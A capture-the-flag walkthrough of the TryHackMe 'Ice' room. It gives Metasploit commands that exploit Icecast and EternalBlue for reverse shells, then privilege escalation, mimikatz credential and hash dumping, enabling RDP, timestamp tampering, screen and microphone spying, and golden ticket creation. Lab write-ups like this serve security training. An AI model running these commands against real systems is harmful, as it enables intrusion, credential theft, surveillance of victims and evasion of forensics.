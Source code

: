 ```yaml
---
title: 'TryHackMe - Ice'
description: "Standard Nmap and Metasploit with mimikatz thrown into the mix for fun. Vulnerability and exploit research, privilege escalation, RDP sessions, and a few tricks to spy on the target."
author: 'Tim Sonner'
date: '2023-07-08'
hero: '/thm-ice/thm-ice-hero.png'
published: true
---
```


![](/thm-ice/thm-ice-hero.png)  

## Recon  

**Nmap service scan**  

```  
nmap -sV -vv $IP 
```  

![](/thm-ice/thm-ice-nmap-sv.png)  

> This room covers the service running on port 8000 (Icecast).  


**Nmap vulnerability scan**  

``` 
nmap -script=vuln -vv $IP   
```  
![](/thm-ice/thm-ice-nmap-script-vuln.png)  

> This box is also vulnerable to Eternal Blue (ms17-010) CVE-2017-0143.  

## Research the exploit. The room wants us to research a specific CVE from 2004. 

**cvedetails.com results for "Icecast"**  

![](/thm-ice/thm-ice-cvedetails-icecast.png)  

> Hmmm... No CVE results from 2004.

**exploit-db.com results for "Icecast"**  

![](/thm-ice/thm-ice-exploitdb-icecast.png)  

> The correct CVE is linked in the exploit-db results (2004-10-6 or 2004-10-12)

**ChatGPT results for Icecast vulnerabilities from 2004**  

![](/thm-ice/thm-ice-chatgpt-icecast-2004.png)  

> We now know the CVE in question is CVE-2004-1561.  

**cvedetails.com results for CVE-2004-1561**  

![](/thm-ice/thm-ice-cvedetails-cve-2014-1561.png)  

> The vulnerability allows us to "Execute Code" by leveraging a buffer "Overflow".  

**Digging a bit deeper... searchsploit results for "Icecast"**  
![](/thm-ice/thm-ice-searchsploit.png)  

**View the exploit**

```  
cat /usr/share/exploitdb/exploits/windows_x86/remote/16763.rb
```  

## Exploit

**Metasploit search results for "icecast"**  
![](/thm-ice/thm-ice-metasploit-search-icecast.png)  

**Metasploit command**  

```  
msfconsole -x "use exploit/windows/http/icecast_header;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Note tun0 may not be the only tun interface. Run 'ip addr' to view interfaces, command above may need tun1.  

**The exploit has ran. Get our user ID and view the icecast process**  
![](/thm-ice/thm-ice-meterpreter-ps.png)  
> We get the same PID if we run getpid. That process is us.

**View all processes**  
![](/thm-ice/thm-ice-meterpreter-ps-regular.png)  

## Elevate our privileges  

**View our privileges**  
```  
getprivs
```  
![](/thm-ice/thm-ice-meterpreter-getprivs-1.png)

**Get suggested exploits**  

```  
run post/multi/recon/local_exploit_suggester
```  

![](/thm-ice/thm-ice-meterpreter-local-suggestions.png)  

**Use a suggested exploit**  

```  
use exploit/windows/local/bypassuac_eventvwr
```  

![](/thm-ice/thm-ice-metasploit-bypassuac-eventvwr.png)  

**Once the exploit has ran, view our sessions, 2 is elevated**  

![](/thm-ice/thm-ice-metasploit-sessions.png)  

**Our user ID is the same as in the un-elevated session**  

![](/thm-ice/thm-ice-meterpreter-getuid.png)

**Our privileges in the elevated session are different**  

![](/thm-ice/thm-ice-meterpreter-getprivs-2.png)  

**View processes in the elevated session. Notice different results between sessions? Our privileged shell can view owners of all processes**  

![](/thm-ice/thm-ice-meterpreter-ps-elevated.png)  

**Migrate to another process**  

![](/thm-ice/thm-ice-meterpreter-migrate.png)

**Load Mimikatz aka Kiwi**  

![](/thm-ice/thm-ice-meterpreter-load-kiwi.png)  


**Get credentials**  
![](/thm-ice/thm-ice-mimikatz-creds-all.png)  

**Dump the hashes with "hashdump"**  

```  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```  

**Spin up an RDP session utilizing the user Dark's credentials to authenticate**  

```  
run post/windows/manage/enable_rdp
```  
> This opens the RDP port and starts the service on the target if not already enabled.  

```  
rdesktop $IP
```  
> Remote desktop, just give it an IP. This command is ran on the localhost of course.  

![](/thm-ice/thm-ice-rdesktop.png)  

**View the target's desktop in real time in a browser window.**  

```  
screenshare
```  

![](/thm-ice/thm-mimikatz-screenshare.png)  

**Mess with timestamps.**  

```  
timestomp desktop.ini -m "07/08/2023 15:30:00"
```  

![](/thm-ice/thm-ice-timestomp.png)  

**Record audio from the taget device's microphone.**  

```  
record_mic
```  
> Don't think this works on this box...

**Create a Kerberos golden ticket to take you where you're going in life...**  

```  
golden_ticket_create
```  
> load kiwi is required for this command.  Also, this box isn't domain joined.  

**Let's p0wn the box using the eternal blue exploit**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Ridiculously EZ.  

![](/thm-ice/thm-ice-metasploit-eternal-blue.png)  

**Here's an exploit to try out and work on...**  

Icecast 2.0.1 (Win32) - Remote Code Execution (1) 

https://www.exploit-db.com/exploits/568  

**Here's a copy of ncat.exe in case we want to rewrite the exploit...**  

[https://timsonner.com/ncat.exe](/ncat.exe)  

# Donezo Funzo.











